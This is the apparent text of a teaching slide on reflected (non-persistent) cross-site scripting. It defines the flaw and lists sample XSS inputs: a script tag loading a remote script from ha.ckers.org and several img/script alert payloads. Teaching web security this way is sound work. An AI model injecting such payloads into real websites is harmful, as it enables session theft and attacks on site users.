

# Non-persistent (Reflective) XSS
Most simplistic and dangerous

Attack script is reflected back to the victim user as part of a page from the vulnerable website. The website responds to the web client input data without checking it properly.

Input examples:
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
13